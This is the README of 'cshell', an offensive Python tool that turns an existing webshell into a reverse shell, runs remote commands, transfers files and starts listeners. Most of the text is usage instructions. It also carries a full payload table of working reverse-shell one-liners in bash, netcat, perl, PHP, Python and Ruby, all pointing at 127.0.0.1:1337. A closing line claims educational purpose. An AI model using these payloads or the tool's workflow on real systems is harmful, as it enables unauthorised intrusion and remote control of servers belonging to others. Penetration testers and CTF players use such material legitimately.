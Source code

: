 # CSHELL  
***  
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/)  [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/0z09e/cshell/LICENSE)  
  
***  
This script takes a working webshell as an argument and can perform the following operations  
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>  
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>  
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]  
  
## Install  
- From PIP library :   
  ```  
  pip3 install cshell  
  ```  
- From Github :   
  ```  
  git clone https://github.com/0z09e/cshell.git  
  cd cshell  
  sudo python3 setup.py install  
  ```  
    
## Usage  
- **Help Menu :**  
``` 
$ cshell --help  
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...  
  
positional arguments:  
  {rev,web,lstnr}  
  
optional arguments:  
  -h, --help       show this help message and exit  
  --payloads       List all payload formats for rev  
  
web     Direct command execution on the webshell with error message  
rev     Reverse shell from a working webshell  
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]  
```

- **Getting a reverse shell from a webshell :**   
	- GET Method  : `cshell rev -i <Interface or IP> <Target URL with REV as command>`  
	- POST Method : `cshell rev -i <Interface or IP> -m POST -d <Post DATA in JSON format with REV as command> <Target URL>`  
- **Interacting with a webshell** :   
	- GET Method : `cshell web <Target URL with WEB as command>`  
	- Post Method : `cshell rev -m POST -d <Post DATA in JSON format with WEB as command> <Target URL>`  
- **Generating a payload** :   
	- `cshell lstnr -f <Format> -i <Interface or IP>  -p <Port> -f <Payload format>`  
  

## Custom Commands : 
- `help` - Help menu of custom commands  
- `clear` - Clear the screen  
- `exit` - Exit the shell  
- `upload` - Upload a file into the remote server  
- `download` - Download a file from the remote server  



## Payloads  
```
$ cshell --payloads  
========================================================================================================  
Format-Name                     Payload  
========================================================================================================  
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196  
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1  
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done  
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5  
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1  
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f  
nc                              nc -e /bin/bash 127.0.0.1 1337  
nc-c                            nc -c /bin/bash 127.0.0.1 1337  
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash  
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'  
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'  
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'  
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'  
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'  
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'  
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'  
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")  
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
```  
## Disclaimer
- Only for educational purpose, The creator of this tool won't be responsible to anything.

